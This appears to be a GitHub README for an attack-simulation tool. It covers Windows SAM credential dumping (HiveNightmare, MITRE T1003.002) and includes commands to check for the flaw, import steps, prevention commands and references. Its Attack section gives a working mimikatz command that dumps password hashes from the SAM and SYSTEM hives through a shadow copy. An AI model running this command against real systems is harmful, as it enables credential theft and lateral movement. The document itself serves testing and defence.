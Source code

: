 # T1003.002 - OS Credential Dumping: Security Account Manager

On July 19, 2021, @jonasLyk noticed the SAM file is readable by all users. Upon further investigation, a number of Windows versions allowed any user to read the SAM file.

## Check if system is vulnerable
As a non-administrative user, run the following in a command prompt
- ```whoami /groups```
- ```sc query vss```
- ```vssadmin list shadows```
- ```icacls %windir%\system32\config\sam```

A vulnerable system will report ```BUILTIN\Users:(I)(RX)```

## Import the Compound Action
1. Click Threat Manager - Migrate Threats
2. Under "Import Threat" click “Choose File” and select the JSON file you downloaded from GitHub
3. Click Import and OK when complete
4. Click Threat Manager - Threat Catalog
5. Find the imported Compound Action and click the tag icon 
6. Tag the MITRE ATT&CK Technique for the Compound Action

## Attack
1. Create a new campaign
2. Select the Compound Action for T1003.002
Note: you may need to change the HarddiskVolumeShadowCopy#
```mimikatz "lsadump::sam /system:\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\system32\config\system /sam:\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\system32\config\\sam"```

## Prevention
Restrict access to sam, system, and security files and remove VSS shadow copies. On a command prompt with administrative privileges:
- ```icacls %windir%\system32\config\sam /remove "Users"```
- ```icacls %windir%\system32\config\security /remove "Users"```
- ```icacls %windir%\system32\config\system /remove "Users"```
- ```vssadmin delete shadows /for=c: /Quiet```
- ```vssadmin list shadows```

## References
- https://twitter.com/jonasLyk/status/1417205166172950531
- https://www.kb.cert.org/vuls/id/506989
- https://doublepulsar.com/hivenightmare-aka-serioussam-anybody-can-read-the-registry-in-windows-10-7a871c465fa5
- https://github.com/GossiTheDog/HiveNightmare